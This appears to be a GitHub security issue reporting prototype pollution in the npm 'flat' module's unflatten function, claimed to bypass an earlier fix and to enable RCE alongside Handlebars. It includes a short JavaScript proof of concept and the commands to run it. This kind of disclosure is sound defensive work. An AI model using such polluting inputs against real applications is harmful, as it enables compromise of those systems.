 # :bug: Description

The `flat` module is vulnerable against a `prototype pollution` issue, which is possible through the `bypass` of the fix proposed previously (https://github.com/hughsk/flat/commit/20ef0ef55dfa028caddaedbcb33efbdb04d18e13).
This could lead to `RCE` through a `well known` issue when interfacing `flat` with the `handlebars` template engine.

# :fire: PoC

1. Create the PoC file:

```js
// poc.js
const { unflatten } = require('flat');
let object = unflatten(JSON.parse('{"prototype":{"test":true}}'));
console.log(object.prototype.test)
```
2. Execute the following commands:

```bash
npm i flat
node poc.js // true
```
